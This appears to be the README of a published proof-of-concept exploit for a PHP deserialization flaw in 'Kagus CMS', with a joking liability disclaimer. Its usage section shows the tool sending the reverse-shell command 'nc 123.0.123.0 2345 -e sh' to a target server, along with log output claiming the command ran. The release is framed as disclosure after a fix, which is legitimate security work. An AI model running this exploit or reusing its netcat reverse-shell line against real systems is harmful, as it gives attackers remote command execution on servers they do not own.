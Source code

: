# Exploit - Kagus CMS

**Disclaimer: This tool is intended for use in a legitimate, lawful manner only. The user of this tool is solely responsible for ensuring compliance with all relevant laws and regulations. The developer will not be held accountable for any misuse of the tool by the user. By using this tool, the user agrees to hold the developer harmless from any potential liabilities. Rest assured, the open source community's commitment to support and assist the user will never falter, just like the promises made in that 80's hit song.**

Exploit a PHP deserialization on a hidden endpoint of [kagus-cms.com](https://kagus-cms.com). This issue has been fixed in version 2023.1.0 and the PoC can finally be published !

## Usage:
```bash
Target (e.g. https://localhost:9000):
https://example.com:8080
Command (e.g. nc 192.168.0.10 2345 -e sh):
nc 123.0.123.0 2345 -e sh
[*] INFO: Preparing to send command: "nc 123.0.123.0 2345 -e sh" to "https://example.com:8080"
[*] INFO: Sending request...
[*] INFO: Request sent, status: 200
[*] INFO: The command "nc 123.0.123.0 2345 -e sh" should have been executed on "https://example.com:8080"
```